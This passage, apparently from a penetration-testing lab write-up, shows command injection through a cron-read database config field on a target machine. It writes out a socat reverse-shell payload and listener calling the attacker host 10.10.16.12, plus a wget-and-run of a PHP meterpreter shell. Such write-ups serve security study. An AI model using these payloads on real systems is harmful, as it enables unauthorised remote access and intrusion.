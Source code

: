 ```
```
`checkrelease` is most relevant to our interests. Let's assume that this script is executed periodically as a backend cronjob. If we set this to an arbitrary command, i.e. a reverse shell, we may assume control of the owner of the process when the cron runs again.

After some attempts to use our meterpreter shell from earlier, it appears some controls are blocking it. Living off the land by setting the `checkrelease` values to `socat` instead does the trick. 

Run a listener on our attacking machine:
```
# socat file:`tty`,raw,echo=0 tcp-listen:443,reuseaddr
```

Update `checkrelease` to our payload:
```
MariaDB [neddy]> update config set option_value = "socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.16.12:443" where id = 86;
err,setsid,sigint,sane tcp:10.10.16.12:443" where id = 86;y,std 
Query OK, 1 row affected (0.00 sec)
Rows matched: 1  Changed: 1  Warnings: 0
```

Immediately we get a shell from the user `guly`:

![](pictures/guly_shell.png)

We want to establish a more stable shell. Looking for our previous php meterpreter, it is not visible to `guly`:
```
guly@unattended:~$ cd /tmp
guly@unattended:/tmp$ ls
systemd-private-fe15709562cd4f2599bdbc781b6e9896-apache2.service-qg1s74
systemd-private-fe15709562cd4f2599bdbc781b6e9896-apache2.service-w6yUCn
systemd-private-fe15709562cd4f2599bdbc781b6e9896-systemd-timesyncd.service-7zDdPB
systemd-private-fe15709562cd4f2599bdbc781b6e9896-systemd-timesyncd.service-A02fji
vmware-root
```

We can easily fetch it and run it again:
```
uly@unattended:/tmp$ wget http://10.10.16.12:443/shell.php
--2023-03-27 19:19:03--  http://10.10.16.12:443/shell.php
Connecting to 10.10.16.12:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1110 (1.1K) [application/octet-stream]
Saving to: ‘shell.php’

shell.php           100%[===================>]   1.08K  --.-KB/s    in 0s      

2023-03-27 19:19:03 (89.0 MB/s) - ‘shell.php’ saved [1110/1110]
```
```
guly@unattended:/tmp$ php shell.php
```
